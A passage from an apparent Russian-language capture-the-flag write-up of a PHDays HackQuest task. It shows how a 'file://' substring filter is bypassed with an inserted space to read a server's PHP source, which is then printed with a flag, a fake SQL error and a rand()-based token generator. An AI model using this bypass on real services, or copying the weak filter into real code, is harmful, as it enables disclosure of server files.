 ![Результат обращения к локальному файлу](/media/2018-05-01-phdays8_hackquest/CryptoApocalypse_file.png)

Ну, почти получилось. Экспериментальным путём определяем, что фильтрация срабатывает на наличие подстроки `file://`. К счастью, это очень легко обойти, достаточно вставить пробел между двоеточием и слешем (`file: ///var/www/html/index.php`) et voilà:

```php
function generateRandomString($length = 32) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
//░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄
//░░░░█░░░░▒▒▒▒▒▒▒▒▒▒▒▒░░▀▀▄
//░░░█░░░▒▒▒▒▒▒░░░░░░░░▒▒▒░░█
//░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░█
//░▀▒▄▄▄▒░█▀▀▀▀▄▄█░░░██▄▄█░░░█
//█▒█▒▄░▀▄▄▄▀░░░░░░░░█░░░▒▒▒▒▒█
//█▒█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄▒█
//░█▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
//░░█░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
//░░░█░░██░░▀█▄▄▄█▄▄█▄████░█
//░░░░█░░░▀▀▄░█░░░█░███████░█
//░░░░░▀▄░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
//░░░░░░░▀▄▄░▒▒▒▒░░░░░░░░░░█
//░░░░░░░░░░▀▀▄▄░▒▒▒▒▒▒▒▒▒▒░█
//░░░░░░░░░░░░░░▀▄▄▄▄▄░░░░░█
//FLAG: EasyPeasy

if (isset($_GET['jbfc'])){
$url = strtolower(urldecode($_GET['jbfc']));
if (mb_stripos($url, "'", 0)!==false) {
    echo "<!-- You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'AND sign=true AND url '".$url."'  at line 1 -->";
};
if (mb_stripos($url, 'file://', 0)!==false) {
```